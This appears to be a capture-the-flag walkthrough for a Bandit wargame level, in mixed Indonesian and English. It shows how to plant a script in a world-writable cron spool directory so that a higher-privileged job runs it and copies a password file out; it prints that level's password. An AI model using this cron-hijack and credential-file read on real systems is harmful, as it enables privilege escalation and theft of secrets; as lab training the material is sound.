 ```yaml
---
layout: level
level: 24
previous: ./level 23.html
next: ./level 25.html
---
```


# soal
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

NOTE: This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level! \
NOTE 2: Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

# solve
- check cronjob file
    ```bash
    cd /etc/cron.d
    cat cronjob_bandit24
    # @reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    # * * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
    ```

- check the file ````cat /usr/bin/cronjob_bandit24.sh```
    ```bash
    #!/bin/bash

    myname=$(whoami)

    cd /var/spool/$myname/foo
    echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
    for i in * .*;
    do
        if [ "$i" != "." -a "$i" != ".." ];
        then
            echo "Handling $i"
            owner="$(stat --format "%U" ./$i)"
            if [ "${owner}" = "bandit23" ]; then
                timeout -s 9 60 ./$i
            fi
            rm -f ./$i
        fi
    done

    # disini jika saya teliti di file ini akan pergi ke location folder tertentu dulu /var/spool/$myname/foo
    # setelah itu dia akan melakuakn looping pada semua file di dalamnya
    # dan akan mengekseskusinya dan setelah itu menghapusnya
    ```

- check the permissions
    ```bash
    ls -lad /var/spool/bandit24/foo
    # drwxrwx-wx 23 root bandit24 4096 Dec 10 09:52 /var/spool/bandit24/foo
    ls -la /var/spool/bandit24/foo
    # ls: cannot open directory '/var/spool/bandit24/foo': Permission denied

    ## kita tidak memiliki akses read pada folder namun kita memiliki akses write yang artinya
    ## kita bisa menaruh file di directory tersebut yang nantinya akan di eksekusi oleh cronjob
    ```

- try create file tmp for location pass
    ```bash
    echo -e "\n[+] output ----------" # debug
    workdir=$(mktemp -d)
    cd $workdir
    touch pass

    ls -lad $workdir
    # drwx------ 2 bandit23 bandit23 4096 Dec 10 09:57 /tmp/tmp.wp45LLE77H
    ## disini bisa kita lihat bahwa tmp tersebut tidak bisa di write jadi kita perlu mengubah permissions nya juga

    chmod -R 777 $workdir
    ls -lad $workdir
    # drwxrwxrwx 2 bandit23 bandit23 4096 Dec 10 09:57 /tmp/tmp.wp45LLE77H
    ls -la pass

    echo -e "\n[+] output ----------" # debug
    echo -e "[+] change the dir write for $(pwd)/pass" # debug
    ```

    - try executable fro cat the pass
    ```bash
    cd /var/spool/bandit24/foo
    cat > cat_pass << EOF
    #!/bin/bash

    cat /etc/bandit_pass/bandit24 > # the path
    EOF

    ls -la cat_pass
    chmod 777 cat_pass
    cat $workdir/pass
    ```

- tunggu hingga file terhapus, dan pass terisi
    ```bash
    ls -la cat_pass
    # -rwxrwxrwx 1 bandit23 bandit23 81 Dec 10 10:17 cat_pass
    cat $workdir/pass

    ls -la cat_pass
    # ls: cannot access 'cat_pass': No such file or directory
    cat $workdir/pass
    # gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8

    ## jika masihh gagal kemungkinan kesalahan di permissions
    ## atau di location file
    ```

# flag
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8